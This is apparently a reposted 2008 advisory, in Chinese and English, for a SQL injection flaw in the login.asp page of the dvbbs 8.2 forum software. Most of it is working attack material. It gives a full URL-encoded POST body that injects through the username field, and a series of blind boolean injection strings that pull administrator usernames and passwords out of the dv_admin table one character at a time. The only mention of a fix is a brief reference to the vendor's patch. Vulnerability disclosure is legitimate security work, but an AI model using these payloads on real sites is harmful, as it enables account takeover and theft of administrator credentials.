 ```yaml
---
title: dvbbs8.2(access/sql)版 login.asp远程注入漏洞exploit
description: Subject:dvbbs8.2(access/sql)versionlogin.aspremotesqlinjection - (dvbbs8.2access/sql版login.asp文件远程SQL注入漏洞)dangerlevel(危险级别):critical/High(危险/高)info:dvbbsispronetomultiplesqlinjectionsecurityflaw
date: 2008-06-01 03:45:18
category: 漏洞信息
tags: ['dvbbs', '数据库', '注入', '漏洞信息', 'exploit']
post_id: 504
alias: dvbbs8.2-access-sql-version-login.asp-remote-sql-injection
ViewNums: 6134
---
```


来源：seclists

email:
hackerb_at_hotmail.com

Subject:
dvbbs8.2(access/sql)version login.asp remote sql injection  -  (dvbbs8.2 access/sql版 login.asp文件远程SQL[注入](/tags/%E6%B3%A8%E5%85%A5)[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF))

danger level(危险级别):
critical/High(危险/高)

info:
dvbbs is prone to multiple sql injection security flaw

interrelated code to access version([exploit](/tags/exploit)):
password=123123&codestr=71&CookieDate=2&userhidden=2&comeurl=index.asp&submit=%u7ACB%u5373%u767B%u5F55&ajaxPost=1&username=where%2527%2520and%25201%253D%2528select%2520count%2528*%2529%2520from%2520dv_admin%2520where%2520left%2528username%252C1%2529%253D%2527a%2527%2529%2520and%2520%25271%2527%253D%25271

Examples(access version):
decide
Where and 1=1
where and 1=2
to get usernamer or password
where’ and 1=(select count(*) from dv_admin where left(username,1)=’a') and ‘1′=’1
where’ and 1=(select count(*) from dv_admin where left(username,2)=’ad’) and ‘1′=’1
…………………..
…………………..
where’ and 1=(select count(*) from dv_admin where left(password,1)=’1′) and ‘1′=’1
where’ and 1=(select count(*) from dv_admin where left(password,2)=’15′) and ‘1′=’1
………………….
………………….

Solution(解决办法):
Authorities patch(官方补丁)
dvbbs web site([http://www.dvbbs.net](http://www.dvbbs.net/))

References(参考):
dvbbs([http://www.dvbbs.net](http://www.dvbbs.net/))

